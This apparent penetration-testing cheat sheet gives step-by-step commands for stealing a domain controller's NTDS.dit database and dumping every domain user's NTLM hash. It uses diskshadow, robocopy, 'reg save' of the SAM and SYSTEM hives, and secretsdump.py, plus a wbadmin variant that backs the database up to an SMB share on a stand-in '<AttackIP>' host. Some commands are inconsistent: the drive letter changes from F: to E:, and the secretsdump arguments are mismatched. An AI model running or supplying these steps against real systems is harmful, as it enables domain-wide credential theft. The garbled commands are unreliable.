Direct access to the Domain Controller's file system allows for the theft of the `NTDS.dit` database, which contains all NTLM hashes for domain users and computers.

#### Using diskshadow.exe

1. Create a shadow copy of the `C` drive:

```cmd
diskshadow.exe
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
begin backup
add volume C: alias cdrive
create
expose %cdrive% F:
end backup
exit
```

2. Copy `NTDS.dit` from the shadow copy:

```cmd
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

Alternatively, use `robocopy` for file copying:

```cmd
robocopy /B F:\Windows\NTDS .\ntds ntds.dit
```

3. Extract `SYSTEM` and `SAM` for hash retrieval:

```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

4. Retrieve all hashes from `NTDS.dit`:

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

#### Using wbadmin.exe

1. Set up NTFS filesystem for SMB server on attacker machine and cache SMB credentials on the target machine.
2. Use `wbadmin.exe` for system backup and `NTDS.dit` extraction:
    ```cmd
    net use X: \\<AttackIP>\sharename /user:smbuser password
    echo "Y" | wbadmin start backup -backuptarget:\\<AttackIP>\sharename -include:c:\windows\ntds
    wbadmin get versions
    echo "Y" | wbadmin start recovery -version:<date-time> -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
    ```

For a practical demonstration, see [DEMO VIDEO WITH IPPSEC](https://www.youtube.com/watch?v=IfCysW0Od8w&t=2610s).
